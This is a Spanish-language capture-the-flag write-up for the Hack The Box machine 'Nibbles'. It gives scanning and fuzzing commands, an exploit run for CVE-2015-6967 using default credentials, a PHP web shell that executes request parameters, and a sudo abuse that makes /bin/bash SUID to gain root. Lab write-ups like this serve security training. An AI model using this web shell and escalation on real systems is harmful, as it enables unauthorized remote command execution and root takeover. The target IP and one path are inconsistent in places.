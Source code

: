 # Nibbles-HTB
Resolucion de la maquina

## NMAP

```
nmap -sS -Pn -p- -vvv 10.129.78.48 -oG ports
nmap -sSV -p22,80 10.129.78.48 -oN Scan
```

## FFUF

```
ffuf -fc 404 -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.78.48/nibbleblog/FUZZ

```

## WFUZZ

```
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.78.48/nibbleblog/FUZZ
```
## searchsploit

![image](https://github.com/gecr07/Nibbles-HTB/assets/63270579/067c5f78-efb1-4b02-bbe8-25396bb2ed12)


```
searchsploit nibbleblog
## Examine
searchsploit -x php/remote/38489.rb
```

> https://github.com/dix0nym/CVE-2015-6967

Examinando el exploit vemos que se puede ingresar con el password por nibbles y un usuario que habiamos identificado ya admin.


## RCE

```
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>

```

En el exploit vemos a ruta y ademas que renombra el archivo al de shell.php a image.php.

## Privilege Escalation

![image](https://github.com/gecr07/Nibbles-HTB/assets/63270579/12047cef-97a8-4ca2-b78c-4fc7f5f7666d)

Esto quiere decir que podemos ejecutar como root y sin password monitor.sh

```
mkdir -p personal/stuff
touch monitor.sh

sudo -u root /home/nibble/personal/sutff/monitor.sh

#!/bin/bash

chmod u+s /bin/bash
bash -p # la bandera privilege

```


































